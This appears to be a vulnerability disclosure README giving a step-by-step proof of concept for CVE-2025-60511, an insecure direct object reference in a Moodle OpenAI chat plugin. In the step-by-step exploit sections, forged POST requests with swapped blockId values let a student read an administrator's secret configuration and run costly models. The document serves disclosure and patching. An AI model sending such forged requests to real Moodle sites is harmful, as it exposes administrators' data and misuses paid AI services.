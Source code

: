 # 🧪 Proof of Concept (PoC) – CVE-2025-60511

## 🎯 Vulnerability Summary

- **Vulnerability Type**: Insecure Direct Object Reference (IDOR)  
- **Component**: Moodle – OpenAI Chat Block Plugin (`block_openai_chat`) v3.0.1 (Build: 2025021700)  
- **Endpoint**: `/blocks/openai_chat/api/completion.php`  
- **Vulnerable Parameter**: `blockId`  
- **Impact**: Information Disclosure, Privilege Escalation, Potential Model Misuse  
- **Attack Prerequisites**: Authenticated low-privileged user (e.g., student or teacher)

---

## 🔍 Technical Description

The `completion.php` endpoint uses the `blockId` parameter to determine which chat block configuration (prompt templates, source of truth entries, model settings) to use when processing OpenAI completions.

However, there is **no access control** verifying that the user owns the block corresponding to the provided `blockId`.

This allows an **authenticated user** (such as a student) to:

- Impersonate other users’ blocks (including admins),
- Access administrator-only prompts and completions,
- Trigger queries using admin’s “source of truth” data,
- Execute high-cost models (e.g., GPT-4) improperly.

---

## 🛠️ Step-by-Step Exploit

### Prerequisites

- The attacker is a logged-in low-privileged user (e.g., student).
- The attacker has access to a valid chat block (e.g., `blockId=16` for student).
- OpenAI Chat Block Plugin is installed.
- Admin has Source of Truth configuration with:

Q: What is the admin-only secret?
A: TOP-SECRET-999

- Admin has configured the following prompt:

> **User:** `studentt`  
> **Assistant:** `Jarvis`

### Installation of Plugin

![alt text](ReachPlugin.png)

Add the plugin as Block in Moodle dashboard

![alt text](AddBlock.png)

Reach the plugin configuration

![alt text](configuration.png)

Configure the "Source of Truth", "User" and "Assistant" respectively:

![alt text](SourceOfTruth.png)

### 🧪 Step 1 – Test with Student’s Own Block

**Request:**

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
"message": "What is the admin-only secret?",
"history": [],
"blockId": 16
}
```
Response ->

"
The admin-only secret in a Moodle site typically refers to sensitive information or settings that are restricted to administrators. This could include access credentials, configuration options, or specific features that should not be accessible to regular users for security and privacy reasons. If you need assistance with something specific related to admin settings, please provide more details! 
"

That means student cannot reach via directly their correlated blockId's. Let's intercept.

### Step 2 – Forge Request with Admin’s Block

Request:

bash```
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
  "message": "What is the admin-only secret?",
  "history": [],
  "blockId": 15
}
```

 Response:

bash```
 {
  "id": "chatcmpl-X",
  "message": "<pre><code class=\"sql\">SELECT 'TOP-SECRET-999' AS admin_only_secret;\n</code></pre>\n"
}
```

Change blockId as 15 then forward request with "Source of Truth".

![alt text](intercept.png)

Observe that any user with lowest privilege can treat & send request as Admin user.

![alt text](poc.png)
